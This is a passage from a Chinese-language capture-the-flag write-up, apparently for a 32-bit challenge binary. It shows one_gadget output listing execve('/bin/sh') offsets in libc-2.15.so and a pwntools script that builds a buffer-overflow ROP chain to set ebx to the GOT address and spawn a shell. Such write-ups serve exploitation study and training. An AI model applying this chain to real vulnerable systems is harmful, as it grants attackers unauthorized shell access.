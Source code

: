 ```

	[-] Can't find the 'mov dword ptr [r32], r32' gadget
```

因为没有`pop edx`而无法使用write4的gadget，看看能不能使用one_gadget跳转一次执行shell：

```
$ one_gadget libc-2.15.so 
0x3ed77 execve("/bin/sh", esp+0x148, environ)
constraints:
  ebx is the GOT address of libc
  [esp+0x148] == NULL

0x6667f execl("/bin/sh", "sh", [esp+0x8])
constraints:
  ebx is the GOT address of libc
  [esp+0x8] == NULL

0x66685 execl("/bin/sh", eax)
constraints:
  ebx is the GOT address of libc
  eax == NULL

0x66689 execl("/bin/sh", [esp+0x4])
constraints:
  ebx is the GOT address of libc
  [esp+0x4] == NULL
```

还是需要是ebx指向GOT的地址，IDA中可知具体为`0x55700FF4`。还是可以找到一些gadget来使用`eax`寄存器和`xchg`操作构造合适的ebx值并跳转至one_gadget地址`0x555c4685`：

```python
from pwn import *

context.arch = 'i386'
context.log_level = 'debug'

gdb_init = '''
b *0x08048532
c
'''

payload = ''
payload += 'A'*0x20
payload += p32(0x55615d44) # 0x55615d44 : pop eax ; cmp eax, 0xfffff001 ; jae 0xb7d55 ; ret
payload += p32(0x55706d36) # 0x55706d36 : eax
payload += p32(0x556d2860) # 0x556d2860 : add ah, al ; ret
payload += p32(0x556d2860) # 0x556d2860 : add ah, al ; ret
payload += p32(0x556d2860) # 0x556d2860 : add ah, al ; ret
payload += p32(0x555e7a4c) # 0x555e7a4c : add al, 0x5f ; ret
payload += p32(0x555e7a4c) # 0x555e7a4c : add al, 0x5f ; ret
payload += p32(0x556f6061) # 0x556f6061 : xchg eax, edi ; or cl, byte ptr [esi] ; adc al, 0x43 ; ret
payload += p32(0x55623b42) # 0x55623b42 : xchg ebx, edi ; neg eax ; pop edi ; ret
payload += p32(0x20202020) # 0x20202020 : edi
payload += p32(0x55615d44) # 0x55615d44 : pop eax ; cmp eax, 0xfffff001 ; jae 0xb7d55 ; ret
payload += p32(0x555c4685-8) # 0x555c4685 - 8
payload += p32(0x555f6430) # 0x555f6430 : add eax, 8 ; ret
payload += p32(0x556f6061) # 0x556f6061 : xchg eax, edi ; or cl, byte ptr [esi] ; adc al, 0x43 ; ret
payload += p32(0x555b3670) # 0x555b3670 : xor eax, eax ; add esp, 0xc ; ret
payload += p32(0x20202020) * 3
payload += p32(0x556e2541) # 0x556e2541 : push ecx ; call edi
payload += p32(0x20202020) # 0x20202020 : ecx
```